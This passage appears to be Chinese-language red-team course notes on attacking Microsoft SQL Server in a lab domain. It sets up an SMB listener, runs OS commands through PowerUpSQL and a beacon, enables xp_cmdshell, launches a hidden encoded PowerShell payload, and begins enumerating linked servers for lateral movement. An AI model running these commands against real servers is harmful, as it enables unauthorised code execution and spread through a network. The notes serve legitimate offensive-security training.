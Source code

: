 ```

监听
```
root@kali:~# python3 /usr/local/bin/smbserver.py -smb2support pwn .
```

# MSSQL Command Execution

MSSQL拥有执行系统命令能力

PowerUpSQL使用```Invoke-SQLOSCmd```命令

```
beacon> powershell Invoke-SQLOSCmd -Instance "srv-1.dev.cyberbotic.io,1433" -Command "whoami" -RawResults

dev\svc_mssql
```


原生MSSQL使用``` xp_cmdshell ```命令
```
EXEC xp_cmdshell 'whoami';
```
但不一定成功，有可能没有权限，或者没有开启xp_cmdshell,会收到类似如下报错

![alt shell](https://rto-assets.s3.eu-west-2.amazonaws.com/sql-servers/xp_cmdshell-disabled.png?width=1920)


查看xp_cmdshell是否开启
```
SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell';
```

value=0,表示没有开启

![alt value](https://rto-assets.s3.eu-west-2.amazonaws.com/sql-servers/sysconfigurations.png?width=1920)

开启xp_cmdshell功能
```
sp_configure 'Show Advanced Options', 1; RECONFIGURE; sp_configure 'xp_cmdshell', 1; RECONFIGURE;
```

执行powershell命令
```
EXEC xp_cmdshell 'powershell -w hidden -enc <blah>';
```

这里要注意：
1. sql命令可能有长度限制
2. sql服务器可能无法直接访问kali，需要转发和pivot监听



# MS SQL Lateral Movement

mssql支持多个源，包括其他SqlServer，这些SqlServer可能存在其他机器，域，或者林中。如此横向移动就成为可能。

1. 获取实例
## 方法一，手动抓取

枚举当前机器的mssql的实例
```
SELECT * FROM master..sysservers;